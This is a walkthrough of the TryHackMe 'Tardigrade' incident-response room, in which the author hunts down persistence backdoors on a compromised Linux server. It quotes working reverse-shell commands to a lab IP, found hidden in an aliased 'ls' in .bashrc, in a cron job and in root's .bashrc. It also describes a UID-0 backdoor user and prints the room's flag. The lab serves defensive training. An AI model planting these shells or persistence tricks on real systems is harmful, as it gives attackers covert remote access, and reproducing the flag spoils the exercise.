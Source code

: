 # [TryHackMe - Tardigrade](https://tryhackme.com/room/tardigrade)
![e3c209fe00d6503716cccae1db4969f3.png](/resources/e3c209fe00d6503716cccae1db4969f3.png)
***
## Table of Contents

- [Connect to the machine via SSH](#connect-to-the-machine-via-ssh)
- [Investigating the giorgio account](#investigating-the-giorgio-account)
- [Investigating the root account](#investigating-the-root-account)
- [Investigating the system](#investigating-the-system)
- [Final Thoughts](#final-thoughts)

***
## Connect to the machine via SSH
**A server has been compromised, and the security team has decided to isolate the machine until it's been thoroughly cleaned up. Initial checks by the Incident Response team revealed that there are five different backdoors. It's your job to find and remediate them before giving the signal to bring the server back to production.**

>What is the server's OS version?

![dcf367d3e49a53520655ef25b7a86d2a.png](/resources/dcf367d3e49a53520655ef25b7a86d2a.png)

After connected to the compromised machine via SSH, we can use either of these command to get the OS version of this machine 
- `cat /etc/issues`
- `cat /etc/os-release`
- `hostnamectl`
- `lsb_release -a`
- `uname -a`

```
Ubuntu 20.04.4 LTS
```

* * *
## Investigating the giorgio account
**Since we're in the giorgio account already, we might as well have a look around.**

>What's the most interesting file you found in giorgio's home directory?

![1848406cbece65641b1b4f6613987956.png](/resources/1848406cbece65641b1b4f6613987956.png)

First thing we could do when investigate malware residing on the home directory is to run `ls -lha` which will display all files including hidden files of the current directory then we can see that `.bad_bash` appears to be very suspicious one since the rest are common files/folders that could be found on other Linux systems as well plus the file owns by root on other user directory is always picking an interested.  

![9e9e5c3644691f81a9bb8e978a81b306.png](/resources/9e9e5c3644691f81a9bb8e978a81b306.png)

By using `file` utility, we can see that this file is ELF file so its a standard binary to be executed on Linux and this file appears to be the answer of this question as well.

```
.bad_bash
```

>In every investigation, it's important to keep a dirty wordlist to keep track of all your findings, no matter how small. It's also a way to prevent going back in circles and starting from scratch again. As such, now's a good time to create one and put the previous answer as an entry so we can go back to it later. <br>
Another file that can be found in every user's home directory is the .bashrc file. Can you check if you can find something interesting in giorgio's .bashrc?

![b724eda620d469b6114bff2a5a98fd04.png](/resources/b724eda620d469b6114bff2a5a98fd04.png)

`.bashrc` file is a script file that executed when respective user login which contains a lot of configuration, alias and can be abused to add persistence shell command within it and seem like we have one in this case as well, the attacker set alias for `ls` command to execute reverse shell command to 172.10.6.9 on port 6969.

```
ls='(bash -i >& /dev/tcp/172.10.6.9/6969 0>&1 & disown) 2>/dev/null; ls --color=auto'
```

>It seems we've covered the usual bases in giorgio's home directory, so it's time to check the scheduled tasks that he owns.<br>
Did you find anything interesting about scheduled tasks?

![2dba2c78f82ea98eb93732b6631ea844.png](/resources/2dba2c78f82ea98eb93732b6631ea844.png)

Another popular persistence mechanism on Linux is cronjob which we can use `crontab -l` to list cronjob own by respective user who executed the command and in this case, we can see that there is an another reverse shell script being executed every minute to the same IP address and port from previous question.

```
/usr/bin/rm /tmp/f;/usr/bin/mkfifo /tmp/f;/usr/bin/cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc 172.10.6.9 6969 >/tmp/f
```

* * *
## Investigating the root account
**Normal user accounts aren't the only place to leave persistence mechanisms. As such, we will then go ahead and investigate the root account.**

>A few moments after logging on to the root account, you find an error message in your terminal. <br>
What does it say?

![035f02b78c7ccfbca0c437be759eab22.png](/resources/035f02b78c7ccfbca0c437be759eab22.png)

By running `sudo -l`, we can see that current user is capable to execute any command as root so we can switch to root user with `sudo su` and then as soon as we entered root shell, and error message displayed as seen in the image above. and this error exclusively has something to do with `ncat` so its likely to be another persistence mechanism to execute reverse shell as root.

```
Ncat: TIMEOUT.
```

>After moving forward with the error message, a suspicious command appears in the terminal as part of the error message. <br>
What command was displayed?

![59020ce51dc3aff17abc6384b201b07b.png](/resources/59020ce51dc3aff17abc6384b201b07b.png)

After typing "Enter", we can see the command that triggered the error and we confirmed that this is the reverse shell command that will connect to the same IP address we found earlier. 

```
ncat -e /bin/bash 172.10.6.9 6969
```

>You might wonder, "how did that happen? I didn't even do anything? I just logged as root, and it happened." <br>
Can you find out how the suspicious command has been implemented?

![02c3aa79d818ffdd1a444be3906353dc.png](/resources/02c3aa79d818ffdd1a444be3906353dc.png)

When switch user to root, the behavior is likely to be the same as login and the persistence mechanism that can be triggered via login on each user is `.bashrc` which we can see that there is the same command we found from the previous question reside on the `.bashrc` of root user. 

```
.bashrc
```

* * *
## Investigating the system
**After checking the giorgio and the root accounts, it's essentially a free-for-all from here on, as finding more suspicious items depends on how well you know what's "normal" in the system.**

>There's one more persistence mechanism in the system.<br>
A good way to systematically dissect the system is to look for "usuals" and "unusuals". For example, you can check for commonly abused or unusual files and directories.<br>
This specific persistence mechanism is directly tied to something (or someone?) already present in fresh Linux installs and may be abused and/or manipulated to fit an adversary's goals. What's its name?<br>
What is the last persistence mechanism?

![af3fde8558c47fce831f1ec1ff05935d.png](/resources/af3fde8558c47fce831f1ec1ff05935d.png)

Since there is no SSH public key backdoor and cronjob as root found, I checked all users from `/etc/passwd` which I found that there is another user with has the same uid as root which mean this user is another root user on this machine and it just happened to be the backdoor user and the last persistence mechanism we are looking for.

```
nobody
```

* * *
## Final Thoughts
**Now that you've found the final persistence mechanism, it's time to clean up. The persistence mechanisms tackled in this room are common and straightforward; as such, the process of eradicating them is simple.**

**The first four persistence mechanisms can be remediated by simply removing the mechanism (e.g. delete the file, remove the commands). The last one, however, involves bringing back the "unusuals" to their "usual" state, which is a bit more complex as you intend for that particular user, file or process to function as before.**

>Finally, as you've already found the final persistence mechanism, there's value in going all the way through to the end. <br>
The adversary left a golden nugget of "advise" somewhere. <br>
What is the nugget?

![9c0db4a5c4137ec5ffc97bb2aeb9a9ff.png](/resources/9c0db4a5c4137ec5ffc97bb2aeb9a9ff.png)

From the previous result (`/etc/passwd`), we found that the home directory of nobody user is `/nonexistence` so I went to this directory and list all the files which there is 1 hidden file that really stand out here that contains a flag so we can display the content of this file with `cat` directly.

```
THM{Nob0dy_1s_s@f3}
```

![f6fac30d86db78725cde01455aaae920.png](/resources/f6fac30d86db78725cde01455aaae920.png)

And we are done!
***